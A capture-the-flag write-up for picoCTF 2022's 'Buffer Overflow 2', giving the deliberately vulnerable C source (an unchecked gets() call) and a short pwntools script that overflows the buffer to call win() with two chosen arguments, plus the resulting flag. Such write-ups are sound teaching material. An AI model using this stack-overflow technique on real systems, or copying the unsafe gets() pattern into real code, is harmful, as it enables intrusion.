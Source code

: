 # Buffer Overflow 2

Simple buffer overflow, but with argument control.

## Source Code

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 100
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```
## Solution

After running a quick `checksec` on the program, we get this:

![image](https://github.com/nyiyui/ctf/blob/main/picoctf-2022/pwn/images/bo2checksec.png)

This means that it's an x32 file, making it very easy to exploit, since x32 uses `cdecl`. After a bit of code writing, this is our final program:

```python
from pwn import *

con = remote("saturn.picoctf.net", 62465)
winb = 0x08049296

payload = ""
payload += "a" * 112
payload += p32(winb)
payload += "CCCC"
payload += p32(0xCAFEF00D)
payload += p32(0xF00DF00D)
con.sendline(payload)
con.interactive()
```

This gets us our flag: `picoCTF{argum3nt5_4_d4yZ_31432deb}`